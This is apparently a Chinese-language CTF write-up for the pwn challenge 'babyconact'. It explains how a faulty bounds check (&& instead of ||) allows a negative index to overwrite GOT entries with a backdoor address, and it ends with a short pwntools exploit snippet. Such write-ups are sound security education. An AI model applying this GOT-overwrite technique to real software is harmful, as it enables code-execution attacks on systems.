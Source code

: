 # babyconact  
![](./pics/chc.png)  
只开了NX，有回显函数，还给了后门函数，按理非常简单的一题。  
一开始看到这道菜单题我还以为是堆，最后发现是假的堆题。bug找了好久都买找到，很疑惑这道题能在哪有bug。  
**create**  
![](./pics/create.png)  
**edit**  
![](./pics/edit.png)  
**del**  
![](./pics/del.png)  
**show**  
![](./pics/show.png)  
进入edit函数的要求（第11行）是存放conact的数组的索引为sum(0x4036D8)的地方不为空，由上面几个函数可知可以连续create10次后随便删掉一个会话（只要不是最后一个）就能满足进入edit函数的条件。  
可是进了edit好像也没有任何bug可利用啊。。。所有的编辑都是在范围之内的，看看能不能edit到got表吧。。。  
![](./pics/got.png)  
坏了，got就在存放会话的上方一点点，可是第9行要求索引不能为负。。。  
诶，不对，tmd怎么第9行的判定条件是&&啊！（能发现这点还是因为自己想输入负数的愿望太强烈了，对着这行死盯。。不然可能永远发现不了）  
所以索引直接大胆输负数就好了，于是乎，直接把got表里的地址改成后门函数就好了。。  
最终exp的有效部分甚至不需要十行。。  
```
for i in range(10):
    create(b'aaaa',b'bbbb')
delete(0)
payload1=b'\x56\x10\x40'
payload2=p64(backdoor)+p64(backdoor)
edit(-2,payload1,payload2)
p.interactive()
```
